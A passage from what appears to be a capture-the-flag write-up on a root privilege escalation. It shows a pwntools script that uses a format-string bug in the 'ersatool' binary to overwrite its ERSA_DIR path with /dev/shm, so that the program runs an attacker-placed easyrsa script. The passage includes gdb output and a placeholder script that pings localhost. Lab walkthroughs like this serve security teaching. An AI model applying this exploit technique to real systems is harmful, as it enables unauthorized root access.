 In fact, that works. But cleaner would be to make a loop:

```

for i,c in enumerate("/dev/shm"):
    p.sendline(f"%16${ord(c)}p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+i)) 
    p.recvuntil(b"\n\n")

```

The `recvuntil` just clears out all the junk responses I don’t need (otherwise all the cached incoming data will dump when `interactive` is called). Running it presents a prompt:

```

oxdf@parrot$ python3 root.py 
[+] Starting local process './ersatool': pid 547061
[+] Leaked EXT address:          0x000055713e5aa15f
[+] Calculated ERSA_DIR address: 0x000055713e5aa0f0
[*] Switching to interactive mode
print->CN=$

```

And `gdb` shows the path overwritten:

```

gdb-peda$ x/s &ERSA_DIR
0x55713e5aa0f0 <ERSA_DIR>:      "/dev/shm"

```

#### Finish Script

Now that I’ve overwritten the folder, I’ll just need to call `create` with any input to get the program to call `/dev/shm/easyrsa`. That’s a few more lines:

```

p.sendline()             # return to main menu
p.recvuntil(b"#")        # get prompt
p.sendline(b"create")    # enter create menu
p.recvuntil(b"CN=")      # get prompt
p.sendline(b"0xdf")      # send anything
p.recv(4096)             # recv all sent error messages 

```

Interestingly, if I don’t have a final `p.recv` at the end, it will just exit before the `create` method runs, and I don’t get execution. Just waiting for a response is enough to keep the program open. I removed the `interactive` call.

I’ll also need a script at `/dev/shm/easyrsa`:

```

#!/bin/bash

ping -c 2 127.0.0.1

```
